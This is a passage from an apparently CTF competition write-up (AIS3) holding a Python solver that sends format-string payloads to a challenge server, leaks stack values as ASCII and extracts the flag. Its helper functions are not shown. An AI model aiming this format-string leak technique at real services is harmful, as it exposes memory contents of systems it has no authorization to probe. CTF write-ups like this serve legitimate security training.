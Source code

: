 ```python=
def main():
    host = "chals1.ais3.org"
    port = 50960
  
    print("Test123")
  
    all_data = []
  
    for i in range(1, 200):
        try:
            payload = f",%{i}$"
            response = send_payload(host, port, payload)
            number = extract_number(response)
          
            if number is None:
                continue
              
            ascii_str = int_to_ascii(number)
            print(f"[{i:3d}] {number:12d} (0x{number & 0xFFFFFFFF:08x}) -> '{ascii_str}'")
          
            if ascii_str:
                all_data.append(ascii_str)
              
        except:
            continue
  
    if all_data:
        flag_string = ''.join(all_data)
        print(f"\nAll : {flag_string}")
      
        if 'AIS3{' in flag_string and '}' in flag_string:
            start = flag_string.find('AIS3{')
            end = flag_string.find('}', start) + 1
            flag = flag_string[start:end]
            print(f"\nFlag: {flag}")
        else:
            print("\nSearching for flag pattern in output...")
            for i, data in enumerate(all_data):
                if 'AIS3' in data or '{' in data or '}' in data:
                    print(f"Flag part found: '{data}' at position {i+1}")

if __name__ == "__main__":
    main()
```

![image](https://hackmd.io/_uploads/r1ENC09Mee.png)

## misc

### Ramen CTF
